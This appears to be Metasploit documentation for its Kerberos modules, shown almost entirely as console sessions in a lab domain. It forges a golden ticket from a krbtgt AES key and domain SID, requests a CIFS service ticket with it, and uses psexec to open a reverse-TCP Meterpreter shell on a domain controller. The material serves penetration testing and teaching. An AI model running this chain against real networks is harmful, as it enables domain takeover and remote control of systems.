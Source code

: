 ```msf
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: servicea          /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
```

TGS using a previously forged golden ticket:

```
# Forge a golden ticket
msf auxiliary(admin/kerberos/forge_ticket) > run action=FORGE_GOLDEN aes_key=dac659cec15c80bb2bc8b26cdd3f29076cff84da7ab7ec6cf9dfc2cafa33e087 domain_sid=S-1-5-21-2771926996-166873999-4256077803 domain=dev.demo.local spn=krbtgt/DEV.DEMO.LOCAL user=Administrator

[*] TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230309120450_default_unknown_mit.kerberos.cca_940462.bin
[*] Auxiliary module execution completed


# Request a silver ticket:

msf auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhosts=10.10.11.5 Krb5Ccname=/Users/user/.msf4/loot/20230309120450_default_unknown_mit.kerberos.cca_940462.bin username=Administrator domain=dev.demo.local spn=cifs/dc02.dev.demo.local
[*] Running module against 10.10.11.5

[*] 10.10.11.5:88 - Using cached credential for krbtgt/DEV.DEMO.LOCAL@DEV.DEMO.LOCAL Administrator@DEV.DEMO.LOCAL
[*] 10.10.11.5:88 - Getting TGS for Administrator@dev.demo.local (SPN: cifs/dc02.dev.demo.local)
[+] 10.10.11.5:88 - Received a valid TGS-Response
[*] 10.10.11.5:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin
[+] 10.10.11.5:88 - Received a valid delegation TGS-Response
[*] Auxiliary module execution completed

# Use psexec:

msf exploit(windows/smb/psexec) > run rhost=10.10.11.5 smbdomain=dev.demo.local username=Administrator smb::auth=kerberos smb::krb5ccname=/Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin smb::rhostname=dc02.dev.demo.local domaincontrollerrhost=10.10.11.5 lhost=192.168.123.1

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 10.10.11.5:445 - Connecting to the server...
[*] 10.10.11.5:445 - Authenticating to 10.10.11.5:445|dev.demo.local as user 'Administrator'...
[*] 10.10.11.5:445 - Loaded a credential from ticket file: /Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin
[*] 10.10.11.5:445 - Selecting PowerShell target
[*] 10.10.11.5:445 - Executing the payload...
[+] 10.10.11.5:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.10.11.5

[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 10.10.11.5:60625) at 2023-03-09 12:08:49 +0000
meterpreter >
```
